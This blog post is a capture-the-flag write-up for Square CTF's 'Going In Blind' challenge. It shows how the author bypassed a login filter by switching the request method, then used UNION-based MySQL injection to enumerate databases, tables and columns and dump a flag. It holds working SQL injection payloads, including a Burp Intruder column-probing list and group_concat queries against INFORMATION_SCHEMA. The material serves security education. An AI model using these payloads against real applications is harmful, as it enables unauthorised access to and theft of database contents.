








+++
author = "Blue Pho3nix"
title = "SQUARE CTF"
categories = ["CTFs"]
tags = [ "Medium", "MySQL Injection", "Filter Bypass" ]
image = "categories/CTFs/ctf-edit.png"
date = 2024-06-18T07:07:07+01:00
+++

</br>


## Description



> Ok, the developers got smart, and figured out a way to prevent SQLwe in the log in page. Plus, they decided the flag shouldn't be hardcoded in the web application anymore. How could anyone get to it now?

SquareCTF Going In Blind is the second of two MySQL injection challenges. The [first challenge](https://squarectf.com/2022/alexhanlonhastheflag.html) was a MySQL injection to bypass log in, where we logged in using `username=ahanlon'-- -` to get the flag.

For the Square CTF Going In Blind challenge, blind SQL injection using filtering makes MySQL injection more challenging. The filter can be bypassed by changing the request type in Burp Suite. We managed to display database information on the login page by using a UNION attack to obtain the flag.

[Own this lab yourself](https://squarectf.com/2022/goinginblind.html)

## Skills Learned

- MySQL injection
- UNION Attack
- Filter Bypass

# Solution

## Finding the Vulnerability

We attempted to enter `ahanlon'-- -` into the username input field, but we encountered a restriction allowing only alphanumeric characters. To bypass this restriction, we modified the HTML using the browser's developer tools and successfully logged in with `username=ahanlon'-- -`. However, the backend system has security checks in place, resulting in a `500 Internal Server Error`.



<video width=100% controls autoplay>
<source src="img/nsafn893afufbsdkbDBjbfaf.webm" type="video/webm" />
<source src="img/nsafn893afufbsdkbDBjbfaf.mp4" type="video/mp4" />
</video>

We changed the request method from `POST` to `GET` to bypass the checks and log in with `ahanlon'-- -`. Instead of obtaining the flag, we receive a message indicating that the flag needs to be searched for.

<video width=100% controls autoplay>
<source src="img/FUNSFSKJ89sgsdkgsf89.webm" type="video/webm" />
<source src="img/FUNSFSKJ89sgsdkgsf89.mp4" type="video/mp4" />
</video>



**Working URL encoded payload**

```sql
ahanlon'--+-
```

We perform a UNION attack to retrieve column numbers and check if we can obtain database information by testing a string for reflection on the page.

The test indicates one column and potential database information reflected on the page.

<video width=100% controls autoplay>
<source src="img/oiejrj8q9rwhAHdh3r38scg.webm" type="video/webm" />
<source src="img/oiejrj8q9rwhAHdh3r38scg.mp4" type="video/mp4" />
</video>

**Payload list used in Burp Suite Intruder**

```sql
' UNION SELECT NULL--
' UNION SELECT 'TEST1234'--
' UNION SELECT NULL,NULL--
' UNION SELECT 'TEST1234',NULL--
' UNION SELECT NULL,'TEST1234'--
' UNION SELECT NULL,NULL,NULL--
' UNION SELECT 'TEST1234',NULL,NULL--
' UNION SELECT NULL,'TEST1234',NULL--
' UNION SELECT NULL,NULL,'TEST1234'--
' UNION SELECT NULL,NULL,NULL,NULL--
' UNION SELECT 'TEST1234',NULL,NULL,NULL--
' UNION SELECT NULL,'TEST1234',NULL,NULL--
' UNION SELECT NULL,NULL,'TEST1234',NULL--
' UNION SELECT NULL,NULL,NULL,'TEST1234'--
' UNION SELECT NULL-- -
' UNION SELECT 'TEST1234'-- -
' UNION SELECT NULL,NULL-- -
' UNION SELECT 'TEST1234',NULL-- -
' UNION SELECT NULL,'TEST1234'-- -
' UNION SELECT NULL,NULL,NULL-- -
' UNION SELECT 'TEST1234',NULL,NULL-- -
' UNION SELECT NULL,'TEST1234',NULL-- -
' UNION SELECT NULL,NULL,'TEST1234'-- -
' UNION SELECT NULL,NULL,NULL,NULL-- -
' UNION SELECT 'TEST1234',NULL,NULL,NULL-- -
' UNION SELECT NULL,'TEST1234',NULL,NULL-- -
' UNION SELECT NULL,NULL,'TEST1234',NULL-- -
' UNION SELECT NULL,NULL,NULL,'TEST1234'-- -
' UNION SELECT NULL#
' UNION SELECT 'TEST1234'#
' UNION SELECT NULL,NULL#
' UNION SELECT 'TEST1234',NULL#
' UNION SELECT NULL,'TEST1234'#
' UNION SELECT NULL,NULL,NULL#
' UNION SELECT 'TEST1234',NULL,NULL#
' UNION SELECT NULL,'TEST1234',NULL#
' UNION SELECT NULL,NULL,'TEST1234'#
' UNION SELECT NULL,NULL,NULL,NULL#
' UNION SELECT 'TEST1234',NULL,NULL,NULL#
' UNION SELECT NULL,'TEST1234',NULL,NULL#
' UNION SELECT NULL,NULL,'TEST1234',NULL#
' UNION SELECT NULL,NULL,NULL,'TEST1234'#
```

**Find TEST1234 w/ `Intruder > Options > Grep`**



**Find working payloads**



```sql
' UNION SELECT 'TEST1234'-- -
' UNION SELECT 'TEST1234'#
```

## Exploitation

We edited the payload to list all the databases. This payload was obtained from the "[SQL injection fundamentals](https://academy.hackthebox.com/module/33/section/216)" course on Hack the Box Academy.

We attempted to retrieve all the database names, but only the first one displayed. We discovered a way to concatenate in SQL injection by using `group_concat()`, thanks to an article from [INFOSEC Institute's blog](https://resources.infosecinstitute.com/topic/dumping-a-database-using-sql-injection/). This method worked, allowing us to retrieve all the databases reflected on the page in a single pass.



**Working URL encoded payload**

```sql
'+UNION+SELECT+group_concat(schema_name)+from+INFORMATION_SCHEMA.SCHEMATA--+-
```

**Databases**

- information_schema
- performance_schema
- appdb

We list the tables and columns in the database `appdb` database.



**Working URL encoded payload**

```sql
'+UNION+SELECT+group_concat('TABLE_NAME:',TABLE_NAME,'+with+','COLUMN_NAME:',COLUMN_NAME)+from+INFORMATION_SCHEMA.COLUMNS+where+table_schema='appdb'--+-
```

**Table and column names**

- TABLE_NAME:flag with COLUMN_NAME:flag
- TABLE_NAME:user with COLUMN_NAME:username
- TABLE_NAME:user with COLUMN_NAME:password

To dump the flag, use this payload: `UNION SELECT [column name] from [table name]-- -`, replacing the column name and table name with the flag.



**Working URL encoded payload**

```sql
'+UNION+SELECT+flag+from+flag--+-
```

**Side Note:** I've been going through the [PortSwigger Web Security Academy Labs](https://portswigger.net/web-security/all-labs) where learned how to complete challenges like this one. If you're interested check out the link above.
